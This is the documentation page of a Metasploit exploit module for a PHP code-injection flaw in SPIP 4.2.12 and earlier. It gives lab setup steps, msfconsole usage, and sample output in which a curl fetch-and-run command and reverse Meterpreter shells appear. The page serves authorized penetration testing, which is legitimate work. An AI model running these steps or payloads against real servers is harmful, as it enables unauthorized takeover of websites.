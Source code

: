 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in SPIP versions up to and including 4.2.12.
The vulnerability occurs in SPIP’s templating system where it incorrectly handles user-supplied input, allowing an attacker
to inject and execute arbitrary PHP code.
This can be achieved by crafting a payload that manipulates the templating data processed by the `echappe_retour()` function,
which invokes `traitements_previsu_php_modeles_eval()`, containing an `eval()` call.

To replicate a vulnerable environment for testing:

1. Install SPIP using the provided Docker Compose configuration.
2. Use the image `ipeos/spip:4.2.12` to ensure the environment is vulnerable.
3. Verify that the SPIP instance is accessible on the local network.

### Docker Setup

Use the following Docker Compose file to set up the environment:

```yaml
version: '3.8'

services:
  db:
    image: mariadb:10.5
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=MysqlRootPassword
      - MYSQL_DATABASE=spip
      - MYSQL_USER=spip
      - MYSQL_PASSWORD=spip
    volumes:
      - mysql-data:/var/lib/mysql

  app:
    image: ipeos/spip:4.2.12
    restart: always
    depends_on:
      - db
    environment:
      - SPIP_SITE_ADDRESS=http://localhost:8880
      - SPIP_DB_SERVER=db
      - SPIP_DB_LOGIN=spip
      - SPIP_DB_PASS=spip
      - SPIP_DB_NAME=spip
      - SPIP_AUTO_INSTALL=1
    ports:
      - 8880:80
    volumes:
      - spip-data:/var/www/html

volumes:
  spip-data:
  mysql-data:
```

This Docker Compose file configures a SPIP environment with a MariaDB backend, enabling automatic installation.
Here are the correct setup details:

- **SPIP Access URL:** `http://localhost:8880`
- **Database Configuration:** Utilizes MariaDB, as specified by the database service setup.
- **Automatic Installation:** Enabled via `SPIP_AUTO_INSTALL=1`.

After launching the Docker container, SPIP will be accessible at `http://localhost:8880`.
The automatic installation will simplify the initial setup, allowing you to start using SPIP without manual configuration.

If you decide to disable automatic installation by setting `SPIP_AUTO_INSTALL` to `0`, you will need to manually configure SPIP.
To do this, after starting the container, navigate to `http://localhost:8880/ecrire` to access the SPIP web installation panel.

### Non-Docker Setup

If you prefer not to use Docker, you can manually set up SPIP with the following commands:

```bash
wget https://files.spip.net/spip/archives/spip-v4.2.12.zip
unzip spip-v4.2.12.zip
cd spip-v4.2.12
php -S 0.0.0.0:8000
```

Accessible at `http://localhost:8000`.

## Verification Steps

1. Set up a SPIP instance with the specified Docker environment.
2. Launch `msfconsole` in your Metasploit framework.
3. Use the module: `use exploit/multi/http/spip_porte_plume_previsu_rce`.
4. Set `RHOSTS` to the local IP address or hostname of the target.
5. Configure necessary options such as `TARGETURI`, `SSL`, and `RPORT`.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload.

## Options

No additional options are required for basic exploitation.

## Scenarios

### Successful Exploitation Against Local SPIP 4.2.12

**Setup**:

- Local SPIP instance with version 4.2.12.
- Metasploit Framework.

**Steps**:

1. Start `msfconsole`.
2. Load the module:
```
use exploit/multi/http/spip_porte_plume_previsu_rce
```
3. Set `RHOSTS` to the local IP (e.g., 127.0.0.1).
4. Configure other necessary options (TARGETURI, SSL, etc.).
5. Launch the exploit:
```
exploit
```

**Expected Results**:

With `php/meterpreter/reverse_tcp`:

```
msf6 exploit(multi/http/spip_porte_plume_previsu_rce) > run http://127.0.0.1:8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.2.12
[+] SPIP version 4.2.12 is vulnerable.
[*] Porte plume plugin version detected: 3.1.5
[+] The target appears to be vulnerable. Both the detected SPIP version (4.2.12) and bigup version (3.1.5) are vulnerable.
[*] Preparing to send exploit payload to the target...
[*] Sending exploit payload to the target...
[*] Sending stage (39927 bytes) to 192.168.1.36
[*] Meterpreter session 4 opened (192.168.1.36:4444 -> 192.168.1.36:43974) at 2024-09-08 06:46:50 +0200

meterpreter > sysinfo 
Computer    : linux
OS          : Linux linux 5.15.0-119-generic #129-Ubuntu SMP Fri Aug 2 19:25:20 UTC 2024 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```
msf6 exploit(multi/http/spip_porte_plume_previsu_rce) > run http://127.0.0.1:8000

[*] Command to run on remote host: curl -so ./gYBuGbOLFH http://192.168.1.36:8080/LoPlnjEpeOexZNVppn6cAA; chmod +x ./gYBuGbOLFH; ./gYBuGbOLFH &
[*] Fetch handler listening on 192.168.1.36:8080
[*] HTTP server started
[*] Adding resource /LoPlnjEpeOexZNVppn6cAA
[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.2.12
[+] SPIP version 4.2.12 is vulnerable.
[*] Porte plume plugin version detected: 3.1.5
[+] The target appears to be vulnerable. Both the detected SPIP version (4.2.12) and bigup version (3.1.5) are vulnerable.
[*] Preparing to send exploit payload to the target...
[*] Sending exploit payload to the target...
[*] Client 192.168.1.36 requested /LoPlnjEpeOexZNVppn6cAA
[*] Sending payload to 192.168.1.36 (curl/7.81.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.1.36
[*] Meterpreter session 5 opened (192.168.1.36:4444 -> 192.168.1.36:60244) at 2024-09-08 06:47:47 +0200

meterpreter > sysinfo 
Computer     : 192.168.1.36
OS           : LinuxMint 21.3 (Linux 5.15.0-119-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

- The module successfully exploits the vulnerability and opens a Meterpreter session on the target.

**Note**: Ensure the SPIP instance is correctly configured and running in the Docker environment for the exploit to work as expected.

